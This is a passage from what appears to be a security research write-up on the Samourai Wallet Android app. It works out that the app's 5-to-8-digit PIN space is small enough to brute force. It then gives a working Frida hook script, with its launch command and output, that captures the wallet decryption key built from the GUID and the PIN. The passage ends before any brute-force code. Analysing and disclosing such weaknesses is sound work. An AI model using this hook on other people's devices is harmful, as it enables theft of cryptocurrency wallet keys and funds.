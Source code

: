 
Code snippet from *com.samourai.wallet.PinEntryActivity* class. The failures variable is just an attribute in the class.

To brute force the PIN we must replicate what the method *PayloadUtil.restoreWalletFromJson()* is doing.

Also, the PIN rules are defined in *AccessFactory* class: 

```java
AccessFactory.MIN_PIN_LENGTH = 5;
AccessFactory.MAX_PIN_LENGTH = 8;
```

Doing some quick maths, there are a total of **10^5 + 10^6 + 10^7 + 10^8 = 111.100.000** total possible PINs using digits from 0 to 9 with a length of 5, 6, 7 & 8, respectively.

This is not an astronomic number. In fact, the PIN requirements are not even complex enough to be used in authentication.

## Leveraging Frida on runtime

The key used to decrypt the wallet is passed as argument to *PayloadUtil.restoreWalletFromJson()* method and it is an object of type *CharSequenceX*.

To inspect what kind of value is being passed we can use Frida and hook that particular method to read the passed argument when calling. The following Frida script will leak the contents of *key = getGUID() + pin*: 


```javascript
// Frida script: hook_restoreWalletFromJson.js
Java.perform(() => {
    // Import class
    var CharSequenceX = "com.samourai.wallet.util.CharSequenceX";
    var PayloadUtil = Java.use("com.samourai.wallet.payload.PayloadUtil");
    
    // Overload method
    PayloadUtil.restoreWalletfromJSON.overload(CharSequenceX).implementation =
        function(key){
            console.log("Called restoreWalletFromJson()\n");
            console.log(key.toString());

            // Continue the original call
            return this.restoreWalletfromJSON(key);
        };
});
```

Running the following command will produce the output: 

```shell
$ frida -U --no-pause -f com.samourai.wallet -l hook_restoreWalletFromJson.js
Spawned `com.samourai.wallet`. Resuming main thread!                    
[Redmi 4A::com.samourai.wallet]-> Called restoreWalletFromJson()
b35b2502-541d-4de7-9c95-76fa1d09f668b28da911e4191079f2038a8a6ec978e4fc325fc012345
```
